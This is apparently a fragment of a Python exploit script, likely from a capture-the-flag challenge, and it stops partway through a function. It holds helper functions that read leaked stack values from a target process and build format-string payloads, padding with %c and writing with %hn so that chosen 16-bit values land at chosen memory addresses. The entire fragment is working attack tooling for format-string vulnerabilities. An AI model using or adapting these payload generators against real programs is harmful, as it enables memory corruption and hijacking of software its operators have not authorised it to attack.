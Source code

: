 ```python
    p.recvuntil(b'\n')  # contains many spaces
    
    leaks = p.recv().split(b' ')

    return leaks

def gen_multi_write_format_string(rsp_to_format_offset, position, values, prefix_string_size):
    buf = b''
    # First trick - trigger a write of 0 (or short prefix string), of length 8 bytes. That would clear most MSBs.
    # for i in range(addrs_count):
    #     buf += b'%' + str(position + i * 4).encode() + b'$ln'

    # TODO: assumption - for the first byte, we have to perform some read with %c and only then write with %n
    buf += (position - 1) * b'%1c'  # Increment the position pointer, so the next write would point to our target
    prefix_string_size += position - 1

    value_bytes = []
    for value in values:
        value_bytes += list(struct.unpack('<HHHH', struct.pack('<Q', value)))
    value_bytes_sorted = sorted(value_bytes)

    for val in value_bytes_sorted:
        if val == 0:
            continue

        assert(val >= prefix_string_size)

        val_index = value_bytes.index(val)
       
        if (val != prefix_string_size):  # Handle duplication, no need to write more bytes
            buf += b'%' + str(val - prefix_string_size).encode() + b'c'
        # buf += b'%' + str(position + val_index).encode() + b'$hn'
        buf += b'%hn'

        prefix_string_size = val
        value_bytes[val_index] = b'\xffffffffffff'  # Invalidate byte, to handle duplications

    buf += b'B' * (8 - ((rsp_to_format_offset + len(buf)) % 8))

    return buf


def write_addrs_payload(rsp_to_format_offset, addresses, values, prefix_string_size):
    value_bytes = []
    for value in values:
        value_bytes += list(struct.unpack('<HHHH', struct.pack('<Q', value)))
    value_bytes_sorted = sorted(value_bytes)
    print(f'value_bytes:{value_bytes} value_bytes_sorted:{value_bytes_sorted}')
    
    sorted_addresses = {}
    for i, val in enumerate(value_bytes_sorted):
        if val == 0:
            continue
        val_index = value_bytes.index(val)
        val_address_index = int(val_index / 4)
        sorted_addresses[i] = [addresses[val_address_index] + 2 * (val_index % 4), False]
        value_bytes[val_index] = b'\xffffffffffff'  # handle duplications
        if i > 0 and val == value_bytes_sorted[i - 1]:  
            # Detect duplication, so we won't insert extra %c
            sorted_addresses[i][1] = True
```